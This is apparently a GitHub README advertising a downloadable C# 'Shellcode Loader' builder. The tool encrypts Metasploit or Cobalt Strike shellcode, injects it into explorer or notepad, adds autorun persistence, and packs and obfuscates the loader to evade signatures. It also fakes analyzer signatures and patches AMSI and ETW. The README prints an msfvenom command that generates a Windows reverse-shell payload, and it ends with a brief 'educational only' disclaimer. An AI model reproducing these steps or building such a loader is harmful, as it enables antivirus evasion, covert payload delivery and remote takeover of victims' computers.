 # ⚔️ <b>Shellcode Loader 1.0</b>
>![CSHARP](https://img.shields.io/badge/Language-CSHARP-purple?style=for-the-badge&logo=csharp) 
>![Banner](banner.png)

### > **[⬇️ Download for Windows](https://github.com/K3rnel-Dev/Advanced-Shellcode-Loader/releases/download/Build/Binaries.zip)**  

```diff
- to compile this project required and dnlib package
```

# 📕 About 
> <b>This is a simple implementation of my automated shellcode-loader builder when we do not have an executable file or we need to take the shellcode directly from the file and implement a program that needs to be loaded onto the end station, I automated this a little with support for shellcode encryption, its bytes are taken and encrypted using xor and when launched, they are decrypted in memory in one of these processes "explorer" or "notepad", so far there are only 2 processes to choose from, in the future I will slightly correct this option. The builder also has support for a packer to compress the main loader and hide static signatures, and there is also an obfuscator functionality containing various loader mutation algorithms, these are simple algorithms designed for simple obfuscation, there is also support for fake signatures for the DIE static analyzer. The actual shellcode bytes are taken and parsed directly from the file, their pattern is { 0x... <PAYLOAD BYTES> }. Then the standard process: encryption, transfer to the loader stub and compilation.</b>

# 💉 Support shellcode:
    1) Metasploit shellcode (csharp)
    2) Cobalt Strike shellcode (csharp)

 ```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=<iface> LPORT=<port> -f csharp > shell.txt # metasploit

 # Cobalt Strike
 Payloads -> Stager Payload Generator
 Output -> C#
 Use x64 payload -> set true
 ```
<br>

# ⚙️ Features
- 🖥️ **Compress**: Simple implementation of compression and hiding of static signatures of the main loader.
- ⚔️ **Shellcode Encryption**: Shellcode Byte Encryption and Decryption and their Implementation in Memory.
- 🚀 **Autorun**: Autostart application after OS restart.
- ⚙️ **Conditional Compilation**: Allows the builder to include only the features and options chosen by the user, making the final build more streamlined.
- 🔒 **Custom Renaming and Obfuscation**: Includes customizable renaming of functions and string encryption to make the code less readable and harder to analyze.
- 🎃 **Amsi/Etw patches**: Support for "EtwEventTrace" patches and "AmsiScanBuffer" functions.
<br>

# 📽️ Showcase:

https://github.com/user-attachments/assets/70e8e488-bdb8-439a-9da4-7521efb3a566

## 📸 **Screens**: 
> ![1](1.png)
> ![2](2.png)
> ![3](3.png)
<br>

## ⚠️ **Disclaimer**: 
```
This project is for educational purposes only, intended for studying malware and security techniques. The author is not responsible for any malicious use of this software.
```
<br>

# ⭐ Credits 

- **Author**: <a href="https://github.com/k3rnel-dev">@K3rnel-Dev</a>
- **dnlib**: A library for manipulating .NET assemblies.  
  GitHub: [https://github.com/0xd4d/dnlib](https://github.com/0xd4d/dnlib)
---

